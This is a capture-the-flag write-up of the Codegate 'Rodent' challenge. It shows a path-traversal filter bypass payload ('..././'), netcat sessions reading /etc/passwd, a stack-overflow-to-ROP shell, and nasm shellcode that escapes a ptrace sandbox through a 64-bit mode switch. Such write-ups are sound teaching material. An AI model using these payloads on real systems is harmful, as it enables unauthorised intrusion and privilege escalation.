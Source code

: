 # Rodent - Pwn 800 problem

## Overview

Rodent was a multi-part challenge. The first part was a simple gopher
server, and the second involved escaping a ptrace sandbox.

To start with, all we were given was the IP/port of the gopher server.

## Dumping the binary

Our first goal was to dump the binary for the gopher server. Connecting
and sending `..`, we see what looks like the gopher binary (as well as a
flag file) in the directory listing:

```
$ nc -v 54.178.144.54 7777
Connection to 54.178.144.54 7777 port [tcp/*] succeeded!
..
i*****************************          (fake)  1
i*     Welcome to rodent     *          (fake)  1
i*                           *          (fake)  1
i*   Now with experimental   *          (fake)  1
i*         features!         *          (fake)  1
i*****************************          (fake)  1
9rodent /../rodent      rodent.codegate.int     7777
1.      /../.   rodent.codegate.int     7777
9.bash_logout   /../.bash_logout        rodent.codegate.int     7777
1data   /../data        rodent.codegate.int     7777
9.bash_history  /../.bash_history       rodent.codegate.int     7777
9.profile       /../.profile    rodent.codegate.int     7777
9flag   /../flag        rodent.codegate.int     7777
1..     /../..  rodent.codegate.int     7777
9.bashrc        /../.bashrc     rodent.codegate.int     7777
```

However, trying to download the files showed that path traversal seemed blocked
(plus file paths containing "flag" were specially filtered):

```
$ nc -v 54.178.144.54 7777
Connection to 54.178.144.54 7777 port [tcp/*] succeeded!
../flag
3*** No key for you *** /flag   error.host      1

$ nc -v 54.178.144.54 7777
Connection to 54.178.144.54 7777 port [tcp/*] succeeded!
../../../etc/passwd
3*** Could not resolve path *** /etc/passwd     error.host      1
```

Since `../../../../etc/passwd` was seemingly rewritten to `/etc/passwd`, we
decided to check the program was naively replacing `../` with the empty string.
This turned out to be exactly the case.

```
$ nc -v 54.178.144.54 7777
Connection to 54.178.144.54 7777 port [tcp/*] succeeded!
..././..././..././etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

Using this trick, we dumped the binary as well as the libc. Since we can also
dump `/proc/self/maps`, we also get the libc base address for free when we
exploit the binary.

## Getting a shell

Reversing the binary, we found a pretty obvious buffer overflow. The gopher
server implements a special extension, where if a tab is sent, it reads some
additional data into a stack buffer. The code looked something like this:

```c
char *tab = strchr(ptr, '\t');
if (tab) {
  char *data = tab + 1;
  int len = atoi(data);
  if ((unsigned int) len > 0x1FF)
    send_err(fd, s, "Too much extra data");
  size_t after_line_length = buf + buf_len - line_end;
  if (len < (signed int) after_line_length)
    after_line_length = len;
  memcpy(stack_buf, src, n);
  recv(fd, &stack_buf[after_line_length], len - after_line_length - 1, 0);
  ...
}
```

If `len` is 0, then, then `after_line_length` is also set to 0, and the program will run:

```c
recv(fd, stack_buf, -1, 0);
```

The program has no canary, and we have the libc base, so it is simple to ROP to
`recv`/`system` and get a shell:

```
$ cat /home/rodent/flag
for the next stage, see /home/sandbucket
```

## Sandbucket

In `/home/sandbucket`, we see another setuid binary (32 bit), which we download
and reverse. The binary reads some shellcode from the user and runs it under a
ptrace sandbox which blocks the following syscalls (and allows anything else):

* fork
* vfork
* clone
* execve
* open
* read
* write
* creat
* socketcall

Additionally, the binary creates an empty directory in `/home/sandbucket/jails`
based on the hash of the shellcode, then chroots into that that directory. The
binary also closes all non-tty file descriptors to prevent escaping the chroot
via an inherited directory file descriptor.

### Bugs

There are two main issues with the implementation of the sandbox.

First, when the ptrace sandbox checks syscall numbers, it assumes 32 bit
syscalls. By doing a far return to a `cs` of 0x33, we can switch our process to
64 bit mode and use 64 bit syscalls:

```nasm
  push 0x33
  call getpc
getpc:
  add dword [esp], 5
  retf
```

Since 64 bit syscall numbers are different from 32 bit ones, this allows us to
call otherwise blacklisted system calls.

Second, the directory which the program chroots into is writable by the user
running the sandboxed code (even worse, `/home/sandbucket/jails` is
world-writable).

### Escaping

The 64 bit syscall number for clone is 0x38, which does not match any of the
the syscall numbers in the blacklist. We switch to 64-bit mode and call
`clone(CLONE_UNTRACED, NULL, NULL, NULL)` to create a process which is not
watched by the ptrace sandbox. From here, the simplest solution would be to
write a setuid binary into the chroot directory, then run it as the `rodent`
user to get a shell as `sandbucket`. However, we didn't think of this and
ended up doing something a litle more convoluted instead:

We wrote a small UNIX socket client/server, and placed the server inside the
chroot directory. As the `sandbucket` user, we executed the server, which
created a UNIX socket inside the chroot directory. Then as the `rodent` user,
we ran the client, which connected to the socket and sent a directory file
descriptor for / to the server using ancillary data. Finally, the server used
`openat` to open the flag file and print it out.

```
gophers_in_the_sandbox
```
